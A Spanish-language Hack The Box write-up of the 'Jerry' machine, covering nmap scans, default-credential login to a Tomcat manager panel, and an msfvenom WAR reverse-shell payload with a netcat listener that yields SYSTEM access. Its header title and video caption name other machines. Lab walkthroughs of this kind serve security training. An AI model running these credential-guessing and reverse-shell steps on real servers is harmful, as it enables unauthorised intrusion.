 ```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Jerry {-}

## Introduccion {-}

La maquina del dia se llama Jerry.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/GFED7XNYmXI/0.jpg)](https://www.youtube.com/watch?v=GFED7XNYmXI)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.95
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.95
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p8080 10.10.10.95 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 8080   | http     | Web Fuzzing        |            |


### Analyzando la web {-}


#### Http Enum {-}

```bash
nmap --script http-enub -p8080 10.10.10.95 -oN webScan
```



## Vulnerability Assessment {-}

#### Checkear la web {-}

Vemos la pagina por defecto de Tomcat. Vamos en la url `http://10.10.10.95:8080/manager/html`, Intentamos credenciales por defecto:

- admin:admin
- tomcat:tomcat
- tomcat:s3cret

Ya hemos ganado acceso al panel de manager.
## Vuln exploit & Gaining Access {-}

### War malicioso para tomcat {-}

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o shell.war
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Subimos el war a la web de manager y ya ganamos accesso a la maquina victima. A demas ya estamos como `nt authority\system`
